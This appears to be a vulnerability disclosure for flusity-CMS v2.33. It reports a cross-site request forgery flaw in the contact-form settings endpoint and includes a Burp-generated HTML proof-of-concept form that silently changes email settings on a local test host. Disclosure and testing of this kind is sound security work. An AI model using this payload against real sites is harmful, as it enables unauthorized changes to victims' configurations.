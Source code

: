 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/update_contact_form_settings.php

![1](https://github.com/Icycu123/cms/assets/89123126/324dab50-2398-458a-b342-8f934e226129)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/update_contact_form_settings.php" method="POST">
      <input type="hidden" name="emailSubject" value="New&#32;message&#32;from&#32;Contact&#32;Form&#32;&#32;&#32;cs" />
      <input type="hidden" name="emailBody" value="We&#32;received&#32;a&#32;message&#32;from&#58;" />
      <input type="hidden" name="emailSuccessMessage" value="Email&#32;has&#32;been&#32;sent&#32;successfully" />
      <input type="hidden" name="emailErrorMessage" value="Failed&#32;to&#32;send&#32;the&#32;email" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![2](https://github.com/Icycu123/cms/assets/89123126/90c75aec-9709-405d-bd5f-c403d79336cd)


Successed

![3](https://github.com/Icycu123/cms/assets/89123126/71574297-a5e5-48bc-9669-81a618e2b4a3)
